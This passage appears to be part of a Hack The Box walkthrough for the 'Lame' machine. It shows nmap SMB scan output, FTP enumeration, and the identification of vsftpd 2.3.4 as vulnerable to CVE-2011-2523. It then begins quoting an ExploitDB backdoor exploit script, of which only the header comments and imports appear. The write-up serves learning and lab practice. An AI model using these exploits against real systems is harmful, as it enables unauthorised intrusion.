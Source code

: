 ```bash
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-05-30T11:53:27-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.28 seconds
```

I found exploit for ftp, samba and distccd. It was possible to get a shell with using any one of the exploit. I will try all three exploit.

### FTP Enumeration

anonymous user was enabled but nothing was there.

![Untitled](uploads/Untitled%201.png)

The version vsftpd 2.3.4 is vulnerable to [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523). I found the following exploit in exploitDB.

```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit
```
